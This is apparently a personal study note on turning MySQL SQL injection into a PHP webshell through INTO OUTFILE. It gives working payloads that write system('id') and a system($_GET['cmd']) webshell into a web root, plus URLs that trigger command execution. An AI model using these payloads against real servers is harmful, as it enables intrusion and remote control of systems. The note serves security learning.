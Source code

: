 # 01.sql-injection-webshell

26/05/25

## Recall

- What is an SQL Injection WebShell?
- How does SQL Injection lead to remote code execution via file writing?
- What conditions must be present on the target for a WebShell via SQLi to succeed?
- How can an attacker confirm if the server allows file writes?
- How can developers prevent SQL Injection WebShell attacks?

## Notes

### What it is

An **SQL Injection WebShell** is an attack technique where an attacker leverages an SQL Injection vulnerability to write a malicious file (usually a webshell) to the target server's web root. This is made possible using SQL file output functions such as `INTO OUTFILE` in MySQL.

If the database server has the necessary file system permissions, the attacker can write a file containing server-side code (like PHP). Once placed in the web-accessible directory, this file acts as a webshell, granting the attacker remote code execution (RCE) capabilities through the web interface.

This technique effectively escalates an SQL Injection vulnerability into full remote code execution, significantly increasing the impact.

### How to identify it

The identification process involves two stages:

1. **Find an SQL Injection:**
    
    This is done by injecting classic payloads (`'`, `' OR 1=1 --`, `' UNION SELECT ...`) to check if the application is vulnerable to SQL Injection.
    
2. **Test for file write permissions:**
    
    Once SQL Injection is confirmed, test whether the database server has permissions to write files to the web root or other accessible directories.
    

Example payload for testing file write via SQL Injection:

```bash
' UNION SELECT 1, 2, ..., "<?php system(\"id\") ?>" INTO OUTFILE "/var/www/html/payload.php"; -- -
```

After sending this payload, check if the file was created by visiting:

```bash
https://www.target.com/payload.php
```

If the payload executes (e.g., shows the output of `id`), the server is vulnerable to an SQL Injection WebShell.

### How to exploit it

Once confirmed, the exploitation consists of writing a webshell that allows executing arbitrary commands.

Example PHP webshell payload:

```bash
' UNION SELECT 1, 2, ..., "<?php system($_GET[\"cmd\"]) ?>" INTO OUTFILE "/var/www/html/webshell.php"; -- -
```

The attacker can now interact with the webshell:

```bash
https://www.target.com/webshell.php?cmd=whoami
```

This allows command execution on the server. From here, the attacker can escalate further by spawning a reverse shell, adding users, pivoting inside the network, or exfiltrating data.

## Summary

**SQL Injection WebShell** is an attack that escalates a typical SQL Injection vulnerability into remote code execution by writing a malicious file (webshell) to the web server through the database. This is achieved using functions like `INTO OUTFILE` in MySQL, assuming the server has permissive file system access.

Once deployed, the webshell allows attackers to execute system commands remotely, significantly amplifying the severity of the initial vulnerability. Exploiting this requires both an SQL Injection point and file write capabilities on the database server.